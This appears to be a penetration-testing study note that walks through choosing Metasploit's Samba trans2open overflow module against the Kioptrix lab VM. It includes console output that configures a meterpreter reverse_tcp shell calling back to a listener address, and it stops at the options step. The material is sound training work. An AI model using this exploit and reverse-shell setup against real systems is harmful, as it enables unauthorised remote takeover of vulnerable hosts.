 
# Gaining Root w/ Metasploit
Before we pop a shell on Kioptrix, let's choose an exploit we want to use. Going back to what we found *via [searchsploit](cybersecurity/tools/exploitation/searchsploit.md)* we can even find one which has a *known [Metasploit](/cybersecurity/tools/metasploit.md) module*:
![](//PNPT-pics/gaining-root-1.png)
Since it shows up so often in the output, let's try [trans2open](/cybersecurity/vulnerabilities/trans2.md) 
## Running Metasploit
### `search`
Once we've executed `msfconsole` and we're in the Metasploit console, we can search for trans2open w/ the `search` command:
```bash
msf6 > search trans2open

Matching Modules
================
#  Name                              Disclosure Date  Rank   Check  Description
-  ----                              ---------------  ----   -----  -----------
0  exploit/freebsd/samba/trans2open  2003-04-07       great  No     Samba trans2open 
	Overflow (*BSD x86)
1  exploit/linux/samba/trans2open    2003-04-07       great  No     Samba trans2open 
	Overflow (Linux x86)
2  exploit/osx/samba/trans2open      2003-04-07       great  No     Samba trans2open 
	Overflow (Mac OS X PPC)
3  exploit/solaris/samba/trans2open  2003-04-07       great  No     Samba trans2open 
	Overflow (Solaris SPARC)

Interact with a module by name or index. For example info 3, use 3 or use exploit/solaris/samba/trans2open
```
### `use`
From this list we can use the `use` command to choose a specific module and enter its context (make sure to choose one which matches the target):
```bash
msf6 > use 1
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/samba/trans2open) > 
```
### `options`
Now that our context is set, we can use `options` to see what configurable variables there are for this module:
```bash
msf6 exploit(linux/samba/trans2open) > options

Module options (exploit/linux/samba/trans2open):
   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see <link>
   RPORT   139              yes       The target port (TCP)

Payload options (linux/x86/meterpreter/reverse_tcp):
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.4         yes       The listen address (an interface may be 
									   specified)
   LPORT  4444             yes       The listen port

Exploit target:
   Id  Name
```